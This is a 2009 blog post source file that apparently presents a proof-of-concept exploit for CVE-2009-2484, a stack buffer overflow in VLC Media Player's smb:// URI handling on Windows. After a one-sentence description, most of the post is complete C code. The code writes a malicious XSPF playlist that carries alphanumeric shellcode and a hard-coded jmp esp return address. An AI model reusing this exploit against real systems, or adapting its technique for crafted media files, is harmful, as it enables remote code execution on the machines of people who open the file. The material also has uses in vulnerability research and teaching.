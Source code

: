 ```yaml
---
author: pank4j
comments: true
date: 2009-08-07 00:15:46+00:00
layout: post
slug: vlc-media-player-smb-uri-handling-remote-buffer-overflow-vulnerability-exploit
title: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
description: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
wordpress_id: 81
categories:
- Archive
tags:
- CVE-2009-2484
- exploits
---
```


A stack-based buffer overflow exists in the `Win32AddConnection` function in `modules/access/smb.c` in VideoLAN VLC media player 0.9.9, when running on Microsoft Windows, that allows remote attackers to execute arbitrary code via a long smb URI in a playlist file.

{% highlight c %}
/* VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
* Reference: http://www.securityfocus.com/bid/35500
*
* Tested on VLC media player 0.8.6f on WinXP SP3
*
* Coded by Pankaj Kohli
* http://www.codepwn.com
*
*/

#include <stdio.h>
#include <string.h>

// ASCII shellcode (Display a message box & exit)
unsigned char shell[] = "TY777777777777777777777777777777777QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIXkweaHrJwpf02pQzePMhyzWwSuQnioXPOHuBxKnaQlkOjpJHIvKOYokObPPwRN1uqt5PA";

long jmp = 0x7E485233; // jmp esp (user32.dll)

int main(int argc, char **argv) {
    char buff[512], *p;
    FILE *fp;
    int i;
    long *ptr;

    fp = fopen("sploit.xspf", "wb");
    fprintf(fp, "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n");
    fprintf(fp, "<playlist version=\"1\" xmlns=\"http://xspf.org/ns/0/\" xmlns:vlc=\"http://www.videolan.org/vlc/playlist/ns/0/\">\n");
    fprintf(fp, "\t<title>Playlist</title>\n");
    fprintf(fp, "\t<trackList>\n");
    fprintf(fp, "\t\t<track>\n");
    fprintf(fp, "\t\t\t<location>smb://example.com@www.example.com/foo/#{");

    printf("[*] Creating buffer\n");
    for(i=0; i<300; i++) {
        buff[i] = 'a' + ((i/4)%26);
    }
    ptr = (long *) (buff + 96);
    *ptr = jmp;
    for(i=0; i<strlen((const char *) shell); i++) {
        buff[i+100] = shell[i];
    }
    buff[300] = 0;
    fprintf(fp, "%s", buff);

    fprintf(fp, "}</location>\n");
    fprintf(fp, "\t\t\t<extension application=\"http://www.videolan.org/vlc/playlist/0\">\n");
    fprintf(fp, "\t\t\t\t<vlc:id>0</vlc:id>\n");
    fprintf(fp, "\t\t\t</extension>\n");
    fprintf(fp, "\t\t</track>\n");
    fprintf(fp, "\t</trackList>\n");
    fprintf(fp, "</playlist>\n");
    fclose(fp);

    printf("[*] Exploit file written to sploit.xspf\n");

    return 0;
}
{% endhighlight %}


